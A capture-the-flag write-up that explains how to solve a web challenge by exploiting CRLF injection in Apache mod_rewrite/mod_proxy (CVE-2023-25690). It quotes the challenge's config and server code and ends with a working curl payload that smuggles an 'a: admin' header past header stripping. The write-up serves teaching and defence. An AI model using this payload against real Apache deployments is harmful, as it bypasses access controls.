 # 🛡️ Willy_Wonka_Web

---

## 🧪 Environment Setup

```bash
docker compose up --build
```

---

## 🌐 Description

```
Welcome to the world of web! Can you get the flag?

https://wonka.chal.cyberjousting.com
```

---

## 🔍 Initial View

- Landing page with a form input that sends requests to `/name/<input>`

---

## 📚 Background

- **CRLF Injection**
  - **CR** (Carriage Return): `\r`
  - **LF** (Line Feed): `\n`
  - Together: `\r\n` → CRLF is used to terminate HTTP headers
  - CRLF Injection allows attackers to:
    - Inject headers
    - Manipulate response structure
    - Exploit header-based logic

---

## 🔎 Code Analysis

### `httpd.conf`

```apache
LoadModule rewrite_module modules/mod_rewrite.so
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>
    ServerName localhost
    DocumentRoot /usr/local/apache2/htdocs

    RewriteEngine on
    RewriteRule "^/name/(.*)" "http://backend:3000/?name=$1" [P]
    ProxyPassReverse "/name/" "http://backend:3000/"

    RequestHeader unset A
    RequestHeader unset a
</VirtualHost>
```

- `/name/*` gets forwarded to `backend:3000`
- Strips all `A` or `a` headers from the original client request
- Rewrite rule injects user input directly into backend query parameter

---

### `server.js`

```js
const express = require('express');
const fs = require('fs');

const app = express();
const FLAG = fs.readFileSync('flag.txt', 'utf8').trim();
const PORT = 3000;

app.get('/', (req, res) => {
    if (req.header('a') && req.header('a') === 'admin') {
        return res.send(FLAG); // Flag returned only if header 'a: admin'
    }
    return res.send('Hello ' + req.query.name.replace("<", "").replace(">", "") + '!');
});

app.listen(PORT, () => {
    console.log(`Listening on ${PORT}`);
});
```

---

## 💥 Exploitation Overview

### 🔧 Behavior Flow

1. Client requests `/name/<input>`
2. Apache strips `a` headers from the original request
3. User input is inserted into backend query param → potential for CRLF injection

---

### 🛠️ Vulnerability Details

- **CVE-2023-25690**
  - Vulnerability in Apache’s `mod_rewrite` + `mod_proxy` when untrusted input is passed to rewrite rules with `[P]`
  - Allows CRLF injection in proxied backend requests
- Exploit chain:
  1. Inject CRLF (`%0D%0A`) into rewritten URL
  2. Forge a fake HTTP header (`a: admin`)
  3. Bypass frontend WAF stripping headers
  4. Backend receives injected header

### 🔐 WAF Behavior

- Apache’s `RequestHeader unset a` removes client-sent headers
- But doesn’t sanitize headers injected via URL during proxy rewrite

---

## 🚀 Exploit PoC

```bash
curl 'https://wonka.chal.cyberjousting.com/name/%0D%0Aa:admin%0D%0Asdf:'
```

- Explanation:
  - Injected headers:
    ```
    a: admin
    sdf:
    ```
  - Dummy header (`sdf:`) ensures the `a` header terminates cleanly
- Without dummy header, line might be interpreted as:
  ```
  a: admin HTTP/1.1
  ```

---

## 🧠 Key Takeaways

- Understand CRLF injection and how it manipulates HTTP request structure
- Know how Apache `mod_rewrite` and `mod_proxy` interact
- Learn how request header filtering via `RequestHeader unset` can be bypassed via rewrite URL injection
- Reference:
  - [CVE-2023-25690 - NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-25690)
  - [mod_rewrite Tech Details](https://httpd.apache.org/docs/2.4/rewrite/tech.html)
  - [PoC by dhmosfunk](https://github.com/dhmosfunk/CVE-2023-25690-POC)
